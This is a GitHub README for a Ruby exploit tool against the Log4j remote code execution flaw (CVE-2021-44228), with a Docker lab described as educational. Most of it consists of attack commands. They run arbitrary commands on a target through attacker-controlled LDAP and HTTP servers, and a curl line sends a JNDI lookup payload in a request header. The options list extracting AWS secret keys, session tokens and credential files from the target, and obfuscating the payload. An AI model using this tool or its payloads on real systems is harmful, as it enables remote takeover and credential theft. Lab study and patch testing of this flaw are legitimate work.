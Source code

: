 ## Log4j RCE Vulnerability (CVE-2021-44228)
This is for educational purposes only. This contains docker files to create the testing environment for this exploit

### Building and running the testing environment
Start the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app) and test server
```bash
docker-compose up
```
### Exploitation
Open a new terminal and get an access to the test server
```bash
docker exec -it log4j_attacker bash
```
#### Full Exploitation
```bash
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name'
```
##### Example:
![Full Exploitation](./attachments/full_rce.gif)

#### Serve the payload
Start the HTTP and LDAP Servers
```bash
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name' -s
```

Open a new terminal in the test server
```bash
docker exec -it log4j_attacker bash
# inside the test server
curl http://10.10.10.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.10.10.3:1389/${sys:os.name}}'
```
##### Example:
![Serve only](./attachments/serve.gif)

### Options
```bash
# ./log4j.rb --help
Usage: ./log4j.rb -t [Target] -a [Attacker IP] -l [LDAP Port] -h [HTTP Port]

Options:
    -t, --target Target              Target Host to check. Default: http://127.0.0.1:8080
    -a, --attacker Attacker          IP of LDAP and HTTP servers. Default: 0.0.0.0
    -l, --ldap LDAP_PORT             LDAP Port to use. Default: 53
    -h, --http HTTP_PORT             HTTP Port to use. Default: 1010
    -c, --command Command            Command to execute. Default: "touch /dev/shm/log4j_vulnerable"
    -s, --serve_only                 [OPTIONAL] Starts HTTP and LDAP Server, then send JNDI payload manually
    -i, --info_extract Info_key      [OPTIONAL] Extracts information from the target using log4j keywords. Default is none.Possible inputs but not limited to below:
                                        ${hostName}
                                        ${sys:user.name}
                                        ${sys:user.home}
                                        ${sys:user.dir}
                                        ${sys:java.home}
                                        ${sys:java.vendor}
                                        ${sys:java.version}
                                        ${sys:java.vendor.url}
                                        ${sys:java.vm.version}
                                        ${sys:java.vm.vendor}
                                        ${sys:java.vm.name}
                                        ${sys:os.name}
                                        ${sys:os.arch}
                                        ${sys:os.version}
                                        ${env:JAVA_VERSION}
                                        ${env:AWS_SECRET_ACCESS_KEY}
                                        ${env:AWS_SESSION_TOKEN}
                                        ${env:AWS_SHARED_CREDENTIALS_FILE}
                                        ${env:AWS_WEB_IDENTITY_TOKEN_FILE}
                                        ${env:AWS_PROFILE}
                                        ${env:AWS_CONFIG_FILE}
                                        ${env:AWS_ACCESS_KEY_ID}
    -o, --obfuscate                  [OPTIONAL] Obfuscates the JNDI Payload
        --help                       Print options

```
### Testing outside the container
- Make sure to do `bundle install` first to install the dependency gems

### Credits
- [christophetd](https://github.com/christophetd) for the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [alexandre-lavoie's](https://github.com/alexandre-lavoie) [code](https://github.com/alexandre-lavoie/python-log4rce) for my reference while working on this project

### Notes
This is for educational purposes only. Please use responsibly if you want to test it.
